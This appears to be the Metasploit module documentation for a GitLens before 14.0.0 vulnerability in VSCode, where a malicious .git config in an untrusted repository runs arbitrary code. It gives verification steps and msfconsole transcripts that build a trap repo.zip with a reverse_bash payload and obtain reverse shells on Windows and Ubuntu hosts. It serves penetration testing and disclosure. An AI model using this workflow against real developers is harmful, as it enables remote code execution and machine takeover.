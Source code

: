## Vulnerable Application

GitKraken GitLens before v.14.0.0 allows an untrusted workspace to execute git
commands. A repo may include its own .git folder including a malicious config file to
execute arbitrary code.

Tested against VSCode 1.87.2 with GitLens 13.6.0 on Ubuntu 22.04 and Windows 10

### Install

Download the extension [gitlens-13.6.0.vsix](https://github.com/gitkraken/vscode-gitlens/releases/download/v13.6.0/gitlens-13.6.0.vsix)

1. In VSCode, go to extensions (left side, 4 blocks), click triple dots in top right corner, Auto Update Extensions -> None.
1. In VSCode, go to extensions (left side, 4 blocks), click triple dots in top right corner, install from vsix.

## Verification Steps

1. Install the extension
1. Start msfconsole
1. Do: `use exploit/multi/fileformat/gitlens_local_config_exec`
1. Do: `run`
1. Unzip the repo
1. Open the folder in Visual Studio Code
1. When prompted, select "No, I don't trust the authors"
1. Open the `README.md` file and put the cursor on the first line.
1. You should get a shell.

## Options

### README

The content of the `README.md` file. Defaults to `# Test`

## Scenarios

### VSCode 1.87.2 on Windows 10 Pro (22H2) with GitLens 13.6.0

```
[*] Processing gitlens.rb for ERB directives.
resource (gitlens.rb)> use exploit/multi/fileformat/gitlens_local_config_exec
[*] Using configured payload cmd/unix/reverse_bash
resource (gitlens.rb)> set target 1
target => 1
resource (gitlens.rb)> set lhost 192.168.10.147
lhost => 192.168.10.147
msf exploit(multi/fileformat/gitlens_local_config_exec) > exploit

[*] Started reverse TCP handler on 192.168.10.147:4444 
[+] repo.zip stored at /root/.msf4/local/repo.zip
[*] Waiting for shell
```

Unzip the repo, open the folder in Visual Studio Code. When prompted, select "No, I don't trust the authors". Open the `README.md` file and put the cursor on the first line.

```
[*] Sending stage (336 bytes) to 192.168.10.100
[*] Command shell session 1 opened (192.168.10.147:4444 -> 192.168.10.100:62807) at 2024-03-19 17:46:46 +0000


Shell Banner:
Microsoft Windows [Version 10.0.19045.4170]
-----
          

C:\Users\h00die\Desktop\repo>whoami
whoami
h00die

C:\Users\h00die\Desktop\repo>
```
### VSCode 1.87.2 on Windows 10 Pro (1809), utilizing remote connection to Ubuntu 22.04 with GitLens 13.6.0 installed

```
$ ./msfconsole -qr gitlens.rb 
[*] Processing gitlens.rb for ERB directives.
resource (gitlens.rb)> use exploit/multi/fileformat/gitlens_local_config_exec
[*] Using configured payload cmd/unix/reverse_bash
resource (gitlens.rb)> set lhost 192.168.10.147
lhost => 192.168.10.147
msf exploit(multi/fileformat/gitlens_local_config_exec) > exploit

[*] Started reverse TCP handler on 192.168.10.147:4444 
[+] repo.zip stored at /root/.msf4/local/repo.zip
[*] Waiting for shell
```

Unzip the repo, open the folder in Visual Studio Code. When prompted, select "No, I don't trust the authors". Open the `README.md` file and put the cursor on the first line.

```
[*] Command shell session 1 opened (192.168.10.147:4444 -> 192.168.10.147:53600) at 2024-03-19 18:26:04 +0000

[*] Command shell session 2 opened (192.168.10.147:4444 -> 192.168.10.147:53612) at 2024-03-19 18:26:06 +0000
id
uid=1000(notroot) gid=1000(notroot) groups=1000(notroot),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),119(docker)
```
